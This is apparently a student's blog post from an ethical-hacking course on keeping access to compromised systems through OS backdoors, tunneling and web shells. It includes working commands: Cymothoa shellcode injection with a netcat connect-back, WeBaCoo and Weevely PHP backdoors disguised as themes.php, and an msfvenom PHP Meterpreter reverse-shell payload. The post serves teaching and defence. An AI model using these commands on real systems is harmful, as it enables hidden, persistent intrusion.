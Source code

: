 ```yaml
---
title: The Art of Persistence - Mastering Access Maintenance
date: 2025-05-16
author: Bunleap Sorn
description: Exploring crucial techniques for maintaining access to compromised systems, including creating backdoors, employing tunneling, and utilizing web-based backdoors, as learned in our ethical hacking course.
tags: ["Ethical Hacking", "Cybersecurity", "Classroom Learning", "Maintaining Access", "Backdoors", "Tunneling", "Web Backdoors", "Persistence", "Penetration Testing"]
---
```


Hello, everyone! In our ethical hacking journey, we've covered initial reconnaissance, target enumeration, and even exploitation. But what happens after you've successfully breached a system? That's where the critical phase of **Maintaining Access** comes in. This stage is all about ensuring continued access to a compromised system without needing to re-exploit vulnerabilities that might get patched or discovering new ones.

Why is maintaining access so important?
* **Efficiency:** It saves time by avoiding the need to "reinvent the wheel" and re-exploit the target.
* **Adaptability:** It accounts for scenarios where previous vulnerabilities might have been patched, or sysadmins have hardened the system.

Of course, in penetration testing, these techniques are always used with strict legal and ethical considerations.

Let's dive into the core methods for maintaining access that we've been learning about:

### 1. Creating OS Backdoors

A backdoor is a hidden method that allows an attacker to access the target system without using normal authentication, often remaining undetected. These are typically installed on the operating system itself.

Tools for creating OS backdoors include:
* **Cymothoa:** This tool is designed for injecting shellcode backdoors into an existing process. You can create a backdoor using a command like `./cymothoa –p [PID] –s 1 –y [LISTENPORT]`. To access it, you might use `nc –nv [TARGET_IP] [LISTENPORT]`.
* **Intersect**
* **Meterpreter (Metasploit) backdoor:** Meterpreter sessions themselves can be made persistent on a compromised system.

### 2. Tunneling: Bypassing Network Defenses

Tunneling involves encapsulating one network protocol inside another. Its main purpose is to bypass network protections (like firewalls) that might exist in the target's network. By disguising malicious traffic as legitimate traffic of another protocol, attackers can maintain communication channels.

Common network protocols used for tunneling include DNS, HTTP/HTTPS, and SSH. Examples of tunneling tools are:
* `dns2tcp`
* `iodine`
* `nc` / `netcat`
* `proxychains`
* `ptunnel`
* `socat`
* `stunnel4`

### 3. Web-Based Backdoors

If the target is a web-based application (like a website or web server), backdoors can be planted as normal files or inserted into existing files. These backdoors are often written in scripting languages common to web environments (e.g., PHP, ASP, JSP).

Tools for creating web-based backdoors include:
* **WeBaCoo:** This tool can generate a web backdoor file, for example, `webacoo –g –o themes.php`. To access it, you would typically browse to the backdoor's URL: `webacoo –t –u http://[IP.TARGET]/themes.php`.
* **Weevely:** Another powerful tool to generate PHP backdoors. For instance: `weevely generate [password] themes.php`. Accessing it is done via `weevely http://[TARGET.IP]/themes.php password`.
* **PHP Meterpreter (Metasploit):** You can use `msfvenom` to generate a PHP Meterpreter backdoor: `msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.2.23 -f raw > php-meter.php`. Then, you'd set up a listener on your attacker machine to catch the reverse shell.

### Conclusion

Maintaining access is a sophisticated phase of penetration testing that demonstrates the need for comprehensive security strategies. Understanding how attackers establish persistence – whether through OS-level backdoors, clever tunneling, or discreet web shells – is vital for defenders to implement proper monitoring, intrusion detection, and incident response measures. This knowledge ensures that even if an initial breach occurs, an organization can detect and remove persistent threats before significant damage is done.